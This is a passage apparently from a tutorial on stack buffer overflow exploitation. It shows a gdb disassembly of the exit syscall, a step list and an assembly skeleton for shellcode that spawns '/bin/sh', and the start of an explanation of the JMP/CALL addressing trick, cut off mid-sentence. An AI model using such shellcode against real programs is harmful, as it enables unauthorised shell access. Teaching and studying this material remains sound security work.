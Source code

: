 0x8000350 <_exit+4>:    movl   $0x1,%eax
0x8000355 <_exit+9>:    movl   0x8(%ebp),%ebx
0x8000358 <_exit+12>:   int    $0x80
0x800035a <_exit+14>:   movl   0xfffffffc(%ebp),%ebx
0x800035d <_exit+17>:   movl   %ebp,%esp
0x800035f <_exit+19>:   popl   %ebp
0x8000360 <_exit+20>:   ret
0x8000361 <_exit+21>:   nop
0x8000362 <_exit+22>:   nop
0x8000363 <_exit+23>:   nop
End of assembler dump.
------------------------------------------------------------------------------

   The exit syscall will place 0x1 in EAX, place the exit code in EBX,
and execute "int 0x80".  That's it.  Most applications return 0 on exit to
indicate no errors.  We will place 0 in EBX.  Our list of steps is now:

	a) Have the null terminated string "/bin/sh" somewhere in memory.
	b) Have the address of the string "/bin/sh" somewhere in memory
	   followed by a null long word.
	c) Copy 0xb into the EAX register.
	d) Copy the address of the address of the string "/bin/sh" into the
	   EBX register.
	e) Copy the address of the string "/bin/sh" into the ECX register.
	f) Copy the address of the null long word into the EDX register.
	g) Execute the int $0x80 instruction.
	h) Copy 0x1 into the EAX register.
	i) Copy 0x0 into the EBX register.
	j) Execute the int $0x80 instruction.

   Trying to put this together in assembly language, placing the string
after the code, and remembering we will place the address of the string,
and null word after the array, we have:

------------------------------------------------------------------------------
        movl   string_addr,string_addr_addr
	movb   $0x0,null_byte_addr
        movl   $0x0,null_addr
        movl   $0xb,%eax
        movl   string_addr,%ebx
        leal   string_addr,%ecx
        leal   null_string,%edx
        int    $0x80
        movl   $0x1, %eax
        movl   $0x0, %ebx
	int    $0x80
        /bin/sh string goes here.
------------------------------------------------------------------------------

   The problem is that we don't know where in the memory space of the 
program we are trying to exploit the code (and the string that follows 
it) will be placed.  One way around it is to use a JMP, and a CALL 
instruction.  The JMP and CALL instructions can use IP relative addressing, 
which means we can jump to an offset from the current IP without needing 
to know the exact address of where in memory we want to jump to.  If we 
place a CALL instruction right before the "/bin/sh" string, and a JMP 
instruction to it, the strings address will be pushed onto the stack as 
the return address when CALL is executed.  All we need then is to copy the 
return address into a register.  The CALL instruction can simply call the 
start of our code above.  Assuming now that J stands for the JMP instruction,
C for the CALL instruction, and s for the string,  the execution flow would 
now be:
